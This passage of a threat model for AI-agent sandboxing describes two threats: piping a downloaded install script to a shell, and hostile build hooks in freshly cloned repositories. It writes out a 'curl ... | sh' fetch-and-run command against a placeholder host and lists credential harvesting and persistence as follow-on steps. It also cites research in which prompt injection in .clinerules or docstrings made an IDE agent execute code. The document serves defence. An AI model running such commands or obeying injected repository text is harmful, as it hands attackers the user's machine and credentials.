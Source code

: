 \textbf{Definition.} A user or workload executes an installer script
downloaded directly from a URL, which performs attacker-controlled
operations during installation.

\textbf{Observed instances.} Documented widely as an industry pattern.
AI agents routinely use \texttt{curl\ \textbar{}\ sh} patterns when
installers exist for them, because the alternative install procedures
contain more friction. Specific in-the-wild instances are difficult to
attribute, but the pattern is referenced in nearly every
AI-agent-sandboxing tool's documentation as a primary motivating threat.

\textbf{Attack pattern.} An agent or user invokes
\texttt{curl\ -fsSL\ https://example.com/install.sh\ \textbar{}\ sh}.
The script runs immediately with full user privileges. Common follow-on
actions: credential harvesting, backdoor installation, modification of
\texttt{\textasciitilde{}/.bashrc}/\texttt{\textasciitilde{}/.zshrc} for
persistence, reconnaissance.

\textbf{Confinement approach.} An inspect-only posture denies all
network and all execution outside an inspection-tool set, so a
downloaded script cannot be run by default. Running the installer is a
deliberate move to an install-capable confinement with the specific
source allowed. The default refuses to execute downloaded shell scripts;
the user consents deliberately.

\textbf{Residuals.} Once the user authorises an install-capable
confinement for a specific URL, that URL is trusted. The confinement
cannot evaluate the script's contents; it bounds what the script can do
once running.

\textbf{MITRE ATT\&CK.} T1059.004 (Unix Shell), T1105 (Ingress Tool
Transfer).

\hypertarget{t1.5-build-script-in-a-freshly-cloned-unvetted-repository}{%
\section{T1.5 --- Build script in a freshly cloned, unvetted
repository}\label{t1.5-build-script-in-a-freshly-cloned-unvetted-repository}}

\textbf{Definition.} A user clones a repository to inspect its code, and
the act of opening or building it triggers attacker-controlled scripts
(Makefile, \texttt{package.json} scripts, postinstall hooks,
\texttt{.vscode/tasks.json}).

\textbf{Observed instances.} The Nx attack (T1.1, T1.2) is triggered by
\texttt{npm\ install}. The Mindgard Cline research demonstrated that
simply opening a malicious repository in an IDE with the Cline extension
could trigger code execution via prompt injection in
\texttt{.clinerules} or docstrings.

